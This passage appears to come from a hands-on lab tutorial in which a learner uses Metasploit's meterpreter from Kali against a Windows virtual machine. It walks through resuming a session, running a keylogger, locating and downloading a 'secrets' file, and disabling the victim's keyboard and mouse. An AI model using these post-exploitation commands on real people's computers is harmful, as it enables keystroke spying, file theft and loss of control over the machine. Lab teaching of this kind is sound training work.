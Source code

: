 

## Switch sessions
    
24. Let's recover your meterpreter shell. Run `sessions -l` to view all running connections. You should see your meterpreter session, along with its `id`.

    Interact with that session again by running `sessions <the id of the session>`. Your prompt should change, and you should be engaged with the meterpreter session again.


## Keylogger    

24.	Start a keylogger on the victim's computer. Type `keyscan_start`. Now, from the Windows machine, open Notepad.exe and type some secrets. They are no longer secrets. 
    Back in meterpreter, type `keyscan_dump`. 
    You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.

## Steal files

25.	Steal a file -- download a file from Windows to Kali. 

    Use Notepad to create a text document on the Desktop of the Windows machine. Put more secrets in it.

    From the meterpreter session, use the `cd` command within Meterpreter to navigate to the victim desktop. For that, you can either use the Windows path specification, with double back-slashes:
    
        cd c:\\users\\IEUser\\desktop
        
    ... or you can use linux path specification:
    
        cd /Users/IEUser/desktop
    
    Now type `ls` to see what you might pilfer.
    
    Snag the secrets file.
    
        download [filename to steal]
    
    The file should now be pilfered, saved to the Kali VM at `/root`.
    
26. You can also use the `search` command from within meterpreter to find the secrets file again:
    
        search -f [name of your secrets file].txt
        
               

## Annoy the user

26.	First, disable their keyboard and mouse:

        uictl disable all
        
    Then, play a video for them. We'll use the `play_youtube` post module. Read about it from within meterpreter:

        info post/multi/manage/play_youtube
    